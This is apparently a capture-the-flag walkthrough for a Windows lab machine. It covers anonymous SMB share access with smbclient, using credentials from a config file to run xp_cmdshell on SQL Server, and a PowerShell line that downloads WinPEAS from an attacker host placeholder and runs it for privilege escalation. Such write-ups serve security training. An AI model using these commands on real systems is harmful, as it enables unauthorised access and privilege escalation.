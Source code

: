 If `smbclient \\\\10.129.211.161\\backups` doesn't work, try:

1. **Check your syntax**:
   ```bash
   smbclient //10.129.211.161/backups -N
   ```
   The `-N` flag means no password

2. **Try with explicit SMB version**:
   ```bash
   smbclient //10.129.211.161/backups -N --option='client min protocol=SMB2'
   ```

3. **If Impacket isn't installed**:
   ```bash
   sudo apt install python3-impacket
   # Or
   pip install impacket
   ```

Remember, `xp_cmdshell` is executed within the SQL Server session after you've connected with the credentials found in the config file, not directly through SMB.


### Task 6: What script can be used in order to search possible paths to escalate privileges on Windows hosts?

**Question:** What script can be used in order to search possible paths to escalate privileges on Windows hosts?

**Solution:** WinPEAS

WinPEAS (Windows Privilege Escalation Awesome Scripts) is a powerful enumeration script that automatically searches for possible privilege escalation paths on Windows systems.


```bash
# Transfer WinPEAS to the target
powershell
wget http://{ATTACKER_IP}/winPEASx64.exe -outfile winPEASx64.exe
.\winPEASx64.exe
```

**Importance:** Automated privilege escalation scripts are essential for efficiently identifying potential escalation paths in complex Windows environments.

**Flag Captured:** None (privilege escalation technique)

# Using WinPEAS for Privilege Escalation

Let me explain in detail how to use WinPEAS for privilege escalation on the Windows server:

## 1. What is WinPEAS?

WinPEAS (Windows Privilege Escalation Awesome Script) is a tool that automatically searches for possible privilege escalation paths on Windows systems. It checks for:
- Misconfigurations
- Vulnerable services
- Stored credentials
- Weak permissions
- And many other privilege escalation vectors
